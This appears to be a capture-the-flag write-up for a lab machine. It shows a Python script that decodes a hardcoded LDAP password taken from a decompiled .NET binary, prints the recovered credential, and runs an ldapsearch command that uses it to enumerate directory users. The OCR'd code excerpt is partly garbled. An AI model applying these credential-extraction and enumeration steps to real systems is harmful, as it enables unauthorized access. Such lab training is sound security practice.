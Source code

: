 Static Code Review
------------------

Once we have the UserInfo.exe binary on our host system we can move it to a windows VM and inspect it with .NET reflector. In the LDAP query class we find an encoded password and a function used to encode it. We will need to reverse engineer this function and write a bit of python to decode the password.

![internal class Protected 
// Fields 
private static string enc_password = "ONv32PTwgYjzgg/8j5TbmvPd3e7VVhtVW/yuPsy076,'Y+UIg3E"; 
private static by-teo key = 
// Methods 
public static string getPasswordO 
byte[] buffer = 
byte[] bytes = buffer; 
for (inti = O; i < buffer.Length; i++) 
bytes[i] = (byte) ((buffer[i] key[i % key.Length]) Dxdf); 
return Encoding.DefauIt.GetString(bytes); 
Collapse Methods ](api/images/ypRdr7iC2xXt/image.png)

We will run the following code in pycharm which will return the decoded password.

```text-plain
import base64

def main():
enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b'armando'

array = base64.b64decode(enc_password)
array2=""
for i in range(len(array)):
	array2 += chr(array[i] ^ key[i % len(key)] ^ 223)

print(array2)


if __name__ == '__main__':
	main()
```

The decoded password below:

```text-plain
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

LDAP Enumeration
----------------

Now that we have this LDAP credential we can run an LDAP query on the target. In the output the info field contains what appears to be a plaintext password.

```text-plain
ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=support,DC=htb"

# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
```